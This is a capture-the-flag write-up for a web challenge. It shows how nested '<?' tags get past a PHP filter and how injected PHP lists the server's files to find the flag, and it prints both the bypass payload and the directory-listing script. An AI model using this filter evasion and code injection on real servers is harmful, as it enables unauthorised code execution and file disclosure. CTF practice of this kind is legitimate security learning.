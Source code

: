 # web/ProgrammersHateProgramming2

>web/ProgrammersHateProgramming2

> Points\
>oh noes now there are more filters :(( Link: http://147.182.172.217:42007/

***

Following the same method as ProgrammersHateProgramming, I took a look at the source code to see that now "<?" is also replaced, as well as many functions that I never used


Now adding an extra "<?" onto my original test, it still works!
```php
<?<?php<?php echo '<b>Hello World</b>'; ?>?>
```

Since none of the functions were in the new blocked list, I just added the same and ran
```php
<?<?php<?php
function getDirContents($dir, &$results = array()) {
    $files = scandir($dir);

    foreach ($files as $key => $value) {
        $path = realpath($dir . DIRECTORY_SEPARATOR . $value);
        if (!is_dir($path)) {
            $results[] = $path;
        } else if ($value != "." && $value != "..") {
            getDirContents($path, $results);
            $results[] = $path;
        }
    }

    return $results;
}

var_dump(getDirContents('/var/www/html'));?>?>
```
and also gave me a HUGE list of php files identical to before. Clearly this is not the intended solution, pretty sure I'm using other peoples solutions to find flags.

Again going through them all, I came across "z3fAOcw8kNcyCfn.php" with the desired flag, 
```
flag{wow_that_was_a_lot_of_filters_anyways_how_about_that_meaningful_connection_i_mentioned_earlier_:)}
```

